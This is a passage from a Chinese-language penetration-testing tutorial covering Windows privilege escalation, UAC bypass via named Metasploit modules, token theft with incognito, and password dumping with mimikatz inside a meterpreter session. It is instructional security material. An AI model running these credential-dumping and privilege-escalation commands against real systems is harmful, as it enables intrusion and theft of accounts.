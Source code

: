 <div data-nodeid="10208"><p style="text-align:center">图 17  利用 getsystem 提权</p></div>
<h4 data-nodeid="10209">2.绕过 UAC</h4>
<p data-nodeid="10210">即使是 Administrator 权限，有时在执行程序时会失败，相信你对下图的弹框不会陌生。这就是 UAC（用户账户控制），其原理是通知用户是否对应用程序使用硬盘驱动器和系统文件授权，以达到帮助阻止恶意程序损坏系统的效果。</p>
<p data-nodeid="10211"><img src="https://s0.lgstatic.com/i/image6/M00/02/D2/Cgp9HWAeEayAQhAQAACp3hxvVs4058.png" alt="Drawing 17.png" data-nodeid="10506"></p>
<div data-nodeid="10212"><p style="text-align:center">图 18  UAC 导致的弹框</p></div>
<p data-nodeid="10213">关于绕过 UAC 的原理，我们此处展开讨论，这里推荐几个 Metasploit 自带的利用模块来绕过 UAC：</p>
<pre class="lang-java" data-nodeid="10214"><code data-language="java">use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_injection
use windows/local/bypassuac_vbs
use windows/local/ask
</code></pre>
<p data-nodeid="10215">你是不是发现 Metasploit 功能很强大？它什么功能都有，后面的利用，我们还会继续使用到它。</p>
<h4 data-nodeid="10216">3.令牌窃取</h4>
<p data-nodeid="10217">令牌是系统中的临时分配的认证凭证，等同于账号、密码，决定是否允许当前请求及其所属用户。也就是说，获得令牌后，用户可以在不提供密码的情况下访问网络和系统资源。如果被攻击者窃取到，就等同于窃取了他人账号。</p>
<p data-nodeid="10218">在 Metasploit 中可使用 incognito 去罗列当前系统中的有效 Token 并进行复制伪造，如下图所示，假冒“NT AUTHORITY\SYSTEM”令牌成功获取系统管理员权限。</p>
<p data-nodeid="10219"><img src="https://s0.lgstatic.com/i/image6/M00/02/D0/CioPOWAeEbWAfYtIAADYedlIyJY442.png" alt="Drawing 18.png" data-nodeid="10516"></p>
<div data-nodeid="10220"><p style="text-align:center">图 19  令牌窃取</p></div>
<h3 data-nodeid="10221">横向移动渗透</h3>
<p data-nodeid="10222">为了扩大攻击成果，攻击者通常会利用已被攻破的系统作为跳板，去访问域内的其他主机，试图获得更多主机的控制权，下面介绍一些常用的横向移动渗透手段。</p>
<h4 data-nodeid="10223">1.抓取密码</h4>
<p data-nodeid="10224">在 Windows 上抓取密码的工具，最著名的当属 mimikatz，在 Metasploit 中也有集成，直接通过 load mimikatz 命令即可加载使用。</p>
<pre class="lang-java" data-nodeid="10225"><code data-language="java">meterpreter &gt; load mimikatz
Loading extension mimikatz...[!] Loaded x86 Mimikatz on an x64 architecture.
[!] <span class="hljs-function">Loaded Mimikatz on a newer <span class="hljs-title">OS</span> <span class="hljs-params">(Windows <span class="hljs-number">7</span> (<span class="hljs-number">6.1</span> Build <span class="hljs-number">7601</span>, Service Pack <span class="hljs-number">1</span>)</span>.). Did you mean to 'load kiwi' instead?
Success.
meterpreter&nbsp;&gt;&nbsp;help
...
Mimikatz&nbsp;Commands
</span>=================
&nbsp;&nbsp;&nbsp;&nbsp;Command&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Description
&nbsp;&nbsp;&nbsp;&nbsp;-------&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;-----------
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-function">kerberos&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Attempt&nbsp;to&nbsp;retrieve&nbsp;kerberos&nbsp;creds
&nbsp;&nbsp;&nbsp;&nbsp;livessp&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Attempt&nbsp;to&nbsp;retrieve&nbsp;livessp&nbsp;creds
&nbsp;&nbsp;&nbsp;&nbsp;mimikatz_command&nbsp;&nbsp;Run&nbsp;a&nbsp;custom&nbsp;command
&nbsp;&nbsp;&nbsp;&nbsp;msv&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Attempt&nbsp;to&nbsp;retrieve&nbsp;msv&nbsp;<span class="hljs-title">creds</span>&nbsp;<span class="hljs-params">(hashes)</span>
&nbsp;&nbsp;&nbsp;&nbsp;ssp&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Attempt&nbsp;to&nbsp;retrieve&nbsp;ssp&nbsp;creds
&nbsp;&nbsp;&nbsp;&nbsp;tspkg&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Attempt&nbsp;to&nbsp;retrieve&nbsp;tspkg&nbsp;creds
&nbsp;&nbsp;&nbsp;&nbsp;wdigest&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Attempt&nbsp;to&nbsp;retrieve&nbsp;wdigest&nbsp;creds
meterpreter&nbsp;&gt;&nbsp;wdigest
</span></code></pre>
<p data-nodeid="10226">由于 Metasploit 默认加载的是 32 位的 Mimikatz 程序，在 x64 机器上运行会导致 wdigest 读取密码失败了，只能获取密码哈希。</p>
<p data-nodeid="10227"><img src="https://s0.lgstatic.com/i/image6/M00/02/D2/Cgp9HWAeEcKAPB1IAAF7z9fhxL0342.png" alt="Drawing 19.png" data-nodeid="10524"></p>
<div data-nodeid="10228"><p style="text-align:center">图 20  获取密码哈希</p></div>
